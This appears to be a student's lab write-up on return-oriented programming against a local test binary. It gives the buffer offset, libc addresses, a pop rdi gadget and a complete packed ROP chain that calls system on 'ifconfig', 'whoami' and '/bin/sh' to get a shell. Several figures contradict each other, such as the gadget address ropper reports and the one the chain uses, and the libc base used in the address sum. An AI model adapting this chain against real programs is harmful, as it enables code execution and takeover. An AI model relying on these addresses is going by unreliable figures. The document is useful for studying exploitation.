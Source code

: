 # Return Oriented Programming

## Logistics

1. libc system address: **0x7ffff7a57590**

2. libc exit address: **0x7ffff7a4d1e0**

3. "/bin/sh" address: **0x7ffff7b91543**

4. white space in hex representation is
 **x20**

### Find the offset from buff to RET

We need to understand how many bytes of junk do we have to fill before getting to the return address of `foo`.

We use gdb-peda for this purpose:

```
gdb-peda$ pattern create 400 ptn.txt
gdb-peda$ r < ptn.txt
gdb-peda$ x/s $rsp
0x7fffffffe538:	"AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAP\006@"
gdb-peda$ pattern offset AcAA2AAHAAdA
AcAA2AAHAAdA found at offset: 56
```

The distance we need to fill up is 56 bytes.

### Interesting way to find "system" in libc

Here is an alternative way to find `system` in libc without the help of gdb.

Use `ldd` to find the shared library dependencies.

```bash
$ ldd victim
```

gives us
```bash
libc.so.6 =>/lib/x86_64-linux-gnu/libc.so.6(0x00007ffff7c29000)
```

Then we search for the 'system' symbol in the file:

```
$ nm -D /lib/x86_64-linux-gnu/libc.so.6 | grep '\<system\>'
0000000000046590 W system
```

Therefore the offset of 'system' symbol in libc is 0x0000000000046590, and by using 'i proc mapping' we get to konw the starting address of libc is **0x2aaaaacd0000**.

Hence the address is:

```
0x2aaaaacd0000 + 0x0000000000046590 = 0x2aaaaad16590
```

### Other Payloads

We know that "ifconfig" and "whoami" must be loaded into environment beforehand. So we would need white space sled for both of them.

Add the following lines into ~/.profile:

```bash
export ROP1=$(perl -e 'print "\x20"x100, "ifconfig"')
export ROP2=$(perl -e 'print "\x20"x100, "whoami"')
```

Again, using GDB we get to know there address:

ifconfig: **0x7fffffffee13**
whoami: **0x7fffffffeeab**

## Find ROP gadgets

`system` takes in rdi as its argument, hence we would be looking for some gadgets such that it pops the stack into rdi, and returns.

Running ropper, we found such gadget:

```bash
$ ropper -f victim | grep rdi
0x00000000004006b3: pop rdi; ret;
```

## Construct ROP Chain

We would like to do the following tasks in sequence:

```
1. Load the address of "ifconfig" from stack into rdi;
2. Return to "system";
3. Load the address of "whoami" from stack into rdi;
4. Return to "system";
5. Load the address of "/bin/sh" from stack into rdi;
6. Return to "system";
7. Load some random value into rdi;
8. Return to "exit";
```

We know the following:

1. ROP gadget address:  0x00000000004005d3
2. system address:      0x00007ffff7a57590
3. exit address:        0x00007ffff7a4d1e0
4. /bin/sh address:     0x00007ffff7b91543
5. ifconfig address:    0x00007fffffffee13
7. whoami address:      0x00007fffffffeeab

Our payload would therefore be:

```
buf += 'A'*56
buf += pack('<Q', 0x4005d3)
buf += pack('<Q', 0x7fffffffee13)
buf += pack('<Q', 0x7ffff7a57590)
buf += pack('<Q', 0x4005d3)
buf += pack('<Q', 0x7fffffffeeab)
buf += pack('<Q', 0x7ffff7a57590)
buf += pack('<Q', 0x4005d3)
buf += pack('<Q', 0x7ffff7b91543)
buf += pack('<Q', 0x7ffff7a57590)
buf += pack('<Q', 0x7ffff7a4d1e0)
```